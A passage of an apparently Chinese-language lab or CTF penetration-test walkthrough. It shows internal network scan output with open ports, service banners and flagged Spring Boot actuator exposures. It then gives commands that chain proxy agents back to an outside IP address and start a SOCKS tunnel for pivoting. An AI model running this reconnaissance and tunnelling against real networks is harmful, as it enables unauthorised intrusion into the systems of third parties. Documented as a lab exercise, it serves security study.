 ```php
[2025-03-09 11:45:20] [INFO] 当前用户权限不足,无法发送ICMP包
[2025-03-09 11:45:20] [INFO] 切换为PING方式探测...
[2025-03-09 11:45:21] [SUCCESS] 目标 172.22.10.16    存活 (ICMP)
[2025-03-09 11:45:21] [SUCCESS] 目标 172.22.10.28    存活 (ICMP)
[2025-03-09 11:45:26] [INFO] 存活主机数量: 2
[2025-03-09 11:45:27] [INFO] 有效端口数量: 233
[2025-03-09 11:45:27] [SUCCESS] 端口开放 172.22.10.28:80
[2025-03-09 11:45:27] [SUCCESS] 端口开放 172.22.10.28:22
[2025-03-09 11:45:27] [SUCCESS] 端口开放 172.22.10.16:22
[2025-03-09 11:45:27] [SUCCESS] 端口开放 172.22.10.28:3306
[2025-03-09 11:45:27] [SUCCESS] 端口开放 172.22.10.16:8080
[2025-03-09 11:45:27] [SUCCESS] 服务识别 172.22.10.28:22 => [ssh] 版本:8.2p1 Ubuntu 4ubuntu0.10 产品:OpenSSH 系统:Linux 信息:Ubuntu Linux; protocol 2.0 Banner:[SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.10.]
[2025-03-09 11:45:27] [SUCCESS] 服务识别 172.22.10.16:22 => [ssh] 版本:8.2p1 Ubuntu 4ubuntu0.10 产品:OpenSSH 系统:Linux 信息:Ubuntu Linux; protocol 2.0 Banner:[SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.10.]
[2025-03-09 11:45:27] [SUCCESS] 服务识别 172.22.10.28:3306 => [mysql] 版本:8.0.36-0ubuntu0.20.04.1 产品:MySQL Banner:[[.8.0.36-0ubuntu0.20.04.1.V;{xY ^.0 W]En: 8uB caching_sha2_password]
[2025-03-09 11:45:32] [SUCCESS] 服务识别 172.22.10.28:80 => [http] 版本:1.25.4 产品:nginx
[2025-03-09 11:45:32] [SUCCESS] 服务识别 172.22.10.16:8080 => [http]
[2025-03-09 11:45:32] [INFO] 存活端口数量: 5
[2025-03-09 11:45:32] [INFO] 开始漏洞扫描
[2025-03-09 11:45:32] [INFO] 加载的插件: mysql, ssh, webpoc, webtitle
[2025-03-09 11:45:32] [SUCCESS] 网站标题 http://172.22.10.28       状态码:200 长度:1975   标题:DooTask
[2025-03-09 11:45:32] [SUCCESS] 网站标题 http://172.22.10.16:8080  状态码:302 长度:0      标题:无标题 重定向地址: http://172.22.10.16:8080/login;jsessionid=EFB0A9532795C590DF70C9E786D5D5E4
[2025-03-09 11:45:32] [SUCCESS] 网站标题 http://172.22.10.16:8080/login;jsessionid=EFB0A9532795C590DF70C9E786D5D5E4 状态码:200 长度:3860   标题:智联科技 ERP 后台登陆
[2025-03-09 11:45:33] [SUCCESS] 目标: http://172.22.10.16:8080
  漏洞类型: poc-yaml-spring-actuator-heapdump-file
  漏洞名称: 
  详细信息:
	author:AgeloVito
	links:https://www.cnblogs.com/wyb628/p/8567610.html
[2025-03-09 11:45:34] [SUCCESS] 目标: http://172.22.10.16:8080
  漏洞类型: poc-yaml-springboot-env-unauth
  漏洞名称: spring2
  详细信息:
	links:https://github.com/LandGrey/SpringBootVulExploit

```

接着开始搭建多层代理

```php
./linux_x64_admin -l 1234 -s 1234
./linux_x64_agent -c 62.234.111.84:1234 -s 1234 --reconnect 8
./linux_x64_agent -c 172.28.23.17:8777 -s 1234 --reconnect 8
```

socks隧道启动

```php
(node 0) >> socks 1235
[*] Trying to listen on 0.0.0.0:1235......
[*] Waiting for agent's response......
[*] Socks start successfully!
```
